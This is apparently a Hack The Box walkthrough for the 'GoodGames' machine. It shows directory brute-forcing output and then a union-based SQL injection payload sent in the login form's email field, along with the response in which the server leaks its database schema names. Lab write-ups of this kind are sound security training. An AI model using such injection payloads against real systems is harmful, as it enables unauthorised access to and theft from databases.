 ### Directories
```Console
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://goodgames.htb
 🚀  Threads               │ 300
 📖  Wordlist              │ /SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 💥  Timeout (secs)        │ 7
 💾  Output File           │ dirs/initialdirs.log
 💲  Extensions            │ [php, xml, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
WLD      GET      267l      548w     9265c Got 200 for http://goodgames.htb/8c399e1a5d2b45d59975ee239e1413cd (url length: 32)
WLD      GET         -         -         - Wildcard response is static; auto-filtering 9265 responses; toggle this behavior by using --dont-filter
WLD      GET      267l      548w     9265c Got 200 for http://goodgames.htb/989e09c4de174c40979bf66baed0f702a7c078b5bc514bdca9a8debd8cd54bcc18b326e43d504b11b7a0d59aa56cbe58 (url length: 96)
200      GET      728l     2070w    33387c http://goodgames.htb/signup
200      GET      909l     2572w    44212c http://goodgames.htb/blog
200      GET     1735l     5548w    85107c http://goodgames.htb/
200      GET      267l      545w     9267c http://goodgames.htb/profile
200      GET      267l      553w     9294c http://goodgames.htb/login
302      GET        4l       24w      208c http://goodgames.htb/logout => http://goodgames.htb/
200      GET      730l     2069w    32744c http://goodgames.htb/forgot-password
200      GET      287l      620w    10524c http://goodgames.htb/coming-soon
403      GET        9l       28w      278c http://goodgames.htb/server-status
[####################] - 28m  1764376/1764376 0s      found:11      errors:380915
[####################] - 28m   882190/882188  509/s   http://goodgames.htb
[####################] - 28m   882188/882188  510/s   http://goodgames.htb/
```

### goodgames.htb - login hijack
* Created an account and then captured the `POST` request to `/login` using BurpSuite
 * SQL Injection
```HTML
POST /login HTTP/1.1
Host: goodgames.htb
Content-Length: 106
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://goodgames.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://goodgames.htb/signup
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

email=' union select 1,2,3,concat(schema_name, ':') from information_schema.schemata-- -&password=password
```
  * Returns the following:
```HTML
<h1 class="text-main-1" style="font-size: 50px;">Login Successful</h1>

 <div class="nk-gap"></div>
 <h2 class="h4">Welcome information_schema:main:</h2>
```